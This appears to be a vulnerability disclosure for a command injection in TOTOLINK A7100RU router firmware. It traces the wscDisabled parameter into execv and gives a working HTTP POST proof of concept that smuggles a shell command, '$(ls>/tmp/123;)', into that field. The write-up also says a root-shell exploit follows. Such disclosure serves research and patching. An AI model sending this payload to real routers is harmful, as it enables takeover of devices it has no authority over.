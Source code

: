 # TOTOlink A7100RU Command injection vulnerability

## Overview

- Manufacturer's website information：http://totolink.net/
- Firmware download address ： http://totolink.net/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

## 1. Affected version

![image-20220401101510842](img/image-20220401101510842.png)

Figure 1 shows the latest firmware Ba of the router

## 2.Vulnerability details

![image-20220401134333379](img/image-20220401134333379.png)

The program passes the content obtained by the wscdisabled parameter to the V5 parameter, and then brings V5 into UCI_ Set_ STR function

![image-20220401101339084](img/image-20220401101339084.png)

Format the A4 matched content into V11 through snprintf function, and then bring V11 into cstesystem function

![image-20220401101404038](img/image-20220401101404038.png)

The function directly brings user input into the execv function, which has a command injection vulnerability

## 3.Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware V7.4cu.2313_B20191024
2. Attack with the following  overflow POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 79
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/adm/status.asp?timestamp=1647872753309
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647872744:2
Connection: close

{"topicurl":"setting/setWiFiWpsCfg",
"wscDisabled":"1$(ls>/tmp/123;)"}
```

The reproduction results are as follows:

![image-20220401130711827](img/image-20220401130711827.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

![image-20220401131610763](img/image-20220401131610763.png)

